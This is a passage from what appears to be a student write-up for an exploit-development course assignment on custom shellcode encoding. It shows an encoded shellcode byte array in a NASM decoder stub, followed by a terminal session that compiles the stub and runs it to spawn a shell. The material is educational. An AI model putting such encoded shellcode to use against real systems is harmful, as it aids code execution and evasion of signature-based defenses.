 The encoder can be found <a href="https://github.com/skahwah/slae/blob/master/assignment4/encode.rb">here</a>.

### Decoding and Execution
I built on top of <a href="https://twitter.com/SecurityTube">Vivek's</a> nasm linker and assembler shell script and added the opcode extractor and C compiler used in the SLAE course. You can find `super-compile.sh` <a href="https://github.com/skahwah/slae/blob/master/super-compile.sh">here</a>.

```shell
skawa@ubuntu:~/Desktop/code/assignment/assignment4$ ls
decode.nasm  super-compile.sh
skawa@ubuntu:~/Desktop/code/assignment/assignment4$ cat decode.nasm | grep 0xaa
  EncodedShellcode: db 0xe5,0x16,0x86,0xbe,0xe7,0xe7,0xab,0xbe,0xbe,0xe7,0x88,0xb1,0xb4,0x51,0xf,0x9a,0x51,0x8,0x9f,0x51,0x9,0x7a,0xd7,0x15,0xaa
skawa@ubuntu:~/Desktop/code/assignment/assignment4$ ./super-compile.sh decode
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
[+] Creating Shellcode
[+] Compiling Shellcode
[+] Done!
skawa@ubuntu:~/Desktop/code/assignment/assignment4$ ls
decode  decode.nasm  decode.o  shellcode-decode  shellcode-decode.c  super-compile.sh
skawa@ubuntu:~/Desktop/code/assignment/assignment4$ ./shellcode-decode
Shellcode Length: 62
$ exit
skawa@ubuntu:~/Desktop/code/assignment/assignment4$
```
